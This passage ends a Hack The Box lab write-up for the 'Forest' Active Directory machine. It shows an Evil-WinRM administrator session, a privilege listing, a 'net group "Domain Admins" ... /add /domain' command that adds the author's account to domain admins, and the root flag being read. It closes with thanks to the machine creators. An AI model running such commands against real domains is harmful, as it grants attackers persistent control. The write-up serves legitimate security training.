 SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\Administrator\Documents> net group "Domain Admins" ricknmorty1 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
f048153f************************
*Evil-WinRM* PS C:\Users\Administrator\Documents>

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
FOREST
{{< / highlight >}}

I also added `ricknmorty1` to "Domain Admins" for fun.

{{< figure src="/content/images/2020/03/rick-and-morty-get-schwifty-t-shirt.jpg" caption="ricknmorty1 was gettin schwitfy on this one" >}}

I really enjoyed this machine and I learned a lot. This was the first time I ever user Bloodhound, although I had heard it was great (it is!). Thanks for reading my writeup and thank you to [hackthebox.eu](/forest/hackthebox.eu) and the machine creators: [egre55](https://www.hackthebox.eu/home/users/profile/1190) and [mrb3n](https://www.hackthebox.eu/home/users/profile/2984).

